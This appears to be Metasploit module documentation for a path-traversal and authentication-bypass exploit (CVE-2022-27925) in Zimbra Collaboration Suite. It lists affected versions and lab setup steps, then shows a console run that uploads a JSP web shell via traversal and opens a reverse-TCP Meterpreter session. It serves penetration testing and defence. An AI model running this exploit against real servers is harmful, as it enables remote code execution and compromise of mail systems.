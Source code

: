 ## Vulnerable Application

This module exploits a path-traversal vulnerability as well as an authentication-bypass vulnerability
in the following versions of Zimbra Collaboration Suite:

* Zimbra Collaboration Suite Network Edition 9.0.0 Patch 23 (and earlier)
* Zimbra Collaboration Suite Network Edition 8.8.15 Patch 30 (and earlier)

Note that the open source edition is not affected.

Successful exploitation results in RCE as the `zimbra` user.

Installing the vulnerable versions of Zimbra is a pain, unfortunately. I used a trial version of ZCS 8.8.12,
which you can currently get [here](https://www.zimbra.com/downloads/zimbra-collaboration/). On the download page,
after you register with a valid email address, there's an "older versions" link where you can get vulnerable versions.

To set the server up:
1. `wget https://files.zimbra.com/downloads/8.8.12_GA/zcs-NETWORK-8.8.12_GA_3794.UBUNTU18_64.20190329045002.tgz` on a Ubuntu 18.04 VM.
1. `tar -xvf zcs-NETWORK-8.8.12_GA_3794.UBUNTU18_64.20190329045002.tgz`
1. `hostnamectl set-hostname <hostname of your choice>` to set the hostname for the VM.
1. Edit the `/etc/hosts` file and add in a line `127.0.0.1 <hostname of your choice>`
1. `cd zcs-NETWORK-8.8.12_GA_3794.UBUNTU18_64.20190329045002 && sudo ./setup.sh`
1. Answer `Y` to every question.
1. You will need to wait a while whilst some stuff is set up. You should then get to a menu.
1. Use the number keys to select the menu options.
1. Configure the rest of the options such as the admin password, and full path to license file.
1. Once everything is configured you should get a prompt to press `a` to save and install. Press `a` when this appears.
1. You will then be prompted to save the configuration. Accept this and respond `Y` to any further prompts.
1. Server should start installing. Once its finished you should be ready to test.

Once the server is up, it's vulnerable.

```
msf6 > use exploit/linux/http/zimbra_mboximport_cve_2022_27925
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set RHOSTS 10.0.0.166
RHOSTS => 10.0.0.166
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set LHOST 10.0.0.146
LHOST => 10.0.0.146
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444
[*] Encoding the payload as a .jsp file
[*] Target filename: ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/wuuvqmtko.jsp
[*] Sending POST request with ZIP file
[*] Trying to trigger the backdoor @ public/wuuvqmtko.jsp
[*] Sending stage (3020772 bytes) to 10.0.0.166
[+] Successfully triggered the payload
[+] Deleted ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/wuuvqmtko.jsp
[*] Meterpreter session 1 opened (10.0.0.146:4444 -> 10.0.0.166:35180) at 2022-08-19 11:06:38 -0700
```
